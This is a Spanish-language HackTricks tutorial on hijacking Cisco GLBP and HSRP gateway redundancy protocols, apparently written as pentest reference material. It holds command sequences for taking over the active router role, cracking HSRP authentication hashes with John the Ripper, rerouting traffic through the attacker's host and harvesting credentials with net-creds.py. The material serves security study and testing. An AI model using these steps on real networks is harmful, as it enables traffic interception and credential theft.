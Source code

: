 # Ataques GLBP & HSRP

{% hint style="success" %}
Aprende y practica Hacking en AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* Revisa los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte trucos de hacking enviando PRs a los repositorios de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}

<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

## Descripción general del secuestro de FHRP

### Información sobre FHRP
FHRP está diseñado para proporcionar robustez a la red al fusionar múltiples enrutadores en una única unidad virtual, mejorando así la distribución de carga y la tolerancia a fallos. Cisco Systems introdujo protocolos destacados en esta suite, como GLBP y HSRP.

### Información del Protocolo GLBP
La creación de Cisco, GLBP, funciona en la pila TCP/IP, utilizando UDP en el puerto 3222 para la comunicación. Los enrutadores en un grupo GLBP intercambian paquetes "hello" en intervalos de 3 segundos. Si un enrutador no envía estos paquetes durante 10 segundos, se presume que está fuera de línea. Sin embargo, estos temporizadores no son fijos y pueden ser modificados.

### Operaciones y Distribución de Carga de GLBP
GLBP se destaca al permitir la distribución de carga entre enrutadores utilizando una única IP virtual junto con múltiples direcciones MAC virtuales. En un grupo GLBP, cada enrutador participa en el reenvío de paquetes. A diferencia de HSRP/VRRP, GLBP ofrece un equilibrio de carga genuino a través de varios mecanismos:

- **Equilibrio de Carga Dependiente del Host:** Mantiene la asignación de direcciones MAC AVF consistente a un host, esencial para configuraciones NAT estables.
- **Equilibrio de Carga Round-Robin:** El enfoque predeterminado, alternando la asignación de direcciones MAC AVF entre los hosts solicitantes.
- **Equilibrio de Carga Round-Robin Ponderado:** Distribuye la carga en función de métricas de "Peso" predefinidas.

### Componentes Clave y Terminología en GLBP
- **AVG (Puerta de enlace virtual activa):** El enrutador principal, responsable de asignar direcciones MAC a los enrutadores pares.
- **AVF (Reenviador virtual activo):** Un enrutador designado para gestionar el tráfico de red.
- **Prioridad GLBP:** Una métrica que determina el AVG, comenzando en un valor predeterminado de 100 y variando entre 1 y 255.
- **Peso GLBP:** Refleja la carga actual en un enrutador, ajustable manualmente o a través del Seguimiento de Objetos.
- **Dirección IP Virtual GLBP:** Sirve como puerta de enlace predeterminada de la red para todos los dispositivos conectados.

Para las interacciones, GLBP utiliza la dirección multicast reservada 224.0.0.102 y el puerto UDP 3222. Los enrutadores transmiten paquetes "hello" en intervalos de 3 segundos, y se consideran no operativos si se pierde un paquete durante un período de 10 segundos.

### Mecanismo de Ataque GLBP
Un atacante puede convertirse en el enrutador principal enviando un paquete GLBP con el valor de prioridad más alto (255). Esto puede llevar a ataques de DoS o MITM, permitiendo la interceptación o redirección del tráfico.

### Ejecución de un Ataque GLBP con Loki
[Loki](https://github.com/raizo62/loki_on_kali) puede realizar un ataque GLBP inyectando un paquete con prioridad y peso establecidos en 255. Los pasos previos al ataque implican recopilar información como la dirección IP virtual, la presencia de autenticación y los valores de prioridad del enrutador utilizando herramientas como Wireshark.

Pasos del Ataque:
1. Cambiar a modo promiscuo y habilitar el reenvío de IP.
2. Identificar el enrutador objetivo y recuperar su IP.
3. Generar un ARP Gratuito.
4. Inyectar un paquete GLBP malicioso, suplantando al AVG.
5. Asignar una dirección IP secundaria a la interfaz de red del atacante, reflejando la IP virtual de GLBP.
6. Implementar SNAT para una visibilidad completa del tráfico.
7. Ajustar el enrutamiento para garantizar el acceso continuo a Internet a través del enrutador AVG original.

Siguiendo estos pasos, el atacante se posiciona como un "hombre en el medio", capaz de interceptar y analizar el tráfico de red, incluidos datos no cifrados o sensibles.

Para fines de demostración, aquí están los fragmentos de comando requeridos:
```bash
# Enable promiscuous mode and IP forwarding
sudo ip link set eth0 promisc on
sudo sysctl -w net.ipv4.ip_forward=1

# Configure secondary IP and SNAT
sudo ifconfig eth0:1 10.10.100.254 netmask 255.255.255.0
sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE

# Adjust routing
sudo route del default
sudo route add -net 0.0.0.0 netmask 0.0.0.0 gw 10.10.100.100
```
### Explicación Pasiva del Secuestro de HSRP con Detalles de Comandos

#### Descripción General de HSRP (Protocolo de Router en Espera/Redundancia)
HSRP es un protocolo propietario de Cisco diseñado para la redundancia de la puerta de enlace de red. Permite la configuración de múltiples routers físicos en una unidad lógica única con una dirección IP compartida. Esta unidad lógica es gestionada por un router principal responsable de dirigir el tráfico. A diferencia de GLBP, que utiliza métricas como prioridad y peso para el equilibrio de carga, HSRP se basa en un único router activo para la gestión del tráfico.

#### Roles y Terminología en HSRP
- **Router Activo de HSRP**: El dispositivo que actúa como la puerta de enlace, gestionando el flujo de tráfico.
- **Router en Espera de HSRP**: Un router de respaldo, listo para tomar el control si el router activo falla.
- **Grupo de HSRP**: Un conjunto de routers que colaboran para formar un único router virtual resistente.
- **Dirección MAC de HSRP**: Una dirección MAC virtual asignada al router lógico en la configuración de HSRP.
- **Dirección IP Virtual de HSRP**: La dirección IP virtual del grupo de HSRP, actuando como la puerta de enlace predeterminada para los dispositivos conectados.

#### Versiones de HSRP
HSRP viene en dos versiones, HSRPv1 y HSRPv2, difiriendo principalmente en capacidad de grupo, uso de IP multicast y estructura de dirección MAC virtual. El protocolo utiliza direcciones IP multicast específicas para el intercambio de información de servicio, con paquetes Hello enviados cada 3 segundos. Se presume que un router está inactivo si no se recibe ningún paquete dentro de un intervalo de 10 segundos.

#### Mecanismo de Ataque de HSRP
Los ataques de HSRP implican tomar el rol del Router Activo de forma forzada mediante la inyección de un valor de prioridad máximo. Esto puede llevar a un ataque de Hombre en el Medio (MITM). Los pasos esenciales previos al ataque incluyen recopilar datos sobre la configuración de HSRP, lo cual se puede hacer utilizando Wireshark para el análisis de tráfico.

#### Pasos para Evadir la Autenticación de HSRP
1. Guardar el tráfico de red que contiene datos de HSRP en un archivo .pcap.
```shell
tcpdump -w hsrp_traffic.pcap
```
2. Extraer los hashes MD5 del archivo .pcap utilizando hsrp2john.py.
```shell
python2 hsrp2john.py hsrp_traffic.pcap > hsrp_hashes
```
3. Descifrar los hashes MD5 utilizando John the Ripper.
```shell
john --wordlist=mywordlist.txt hsrp_hashes
```

**Ejecutando la Inyección de HSRP con Loki**

1. Iniciar Loki para identificar los anuncios de HSRP.
2. Configurar la interfaz de red en modo promiscuo y habilitar el reenvío de IP.
```shell
sudo ip link set eth0 promisc on
sudo sysctl -w net.ipv4.ip_forward=1
```
3. Utilizar Loki para apuntar al router específico, ingresar la contraseña de HSRP descifrada y realizar las configuraciones necesarias para hacerse pasar por el Router Activo.
4. Después de obtener el rol del Router Activo, configurar la interfaz de red y las tablas IP para interceptar el tráfico legítimo.
```shell
sudo ifconfig eth0:1 10.10.100.254 netmask 255.255.255.0
sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
```
5. Modificar la tabla de enrutamiento para dirigir el tráfico a través del antiguo Router Activo.
```shell
sudo route del default
sudo route add -net 0.0.0.0 netmask 0.0.0.0 gw 10.10.100.100
```
6. Utilizar net-creds.py o una utilidad similar para capturar credenciales del tráfico interceptado.
```shell
sudo python2 net-creds.py -i eth0
```

Al ejecutar estos pasos, el atacante se coloca en una posición para interceptar y manipular el tráfico, similar al procedimiento para el secuestro de GLBP. Esto resalta la vulnerabilidad en protocolos de redundancia como HSRP y la necesidad de medidas de seguridad robustas.

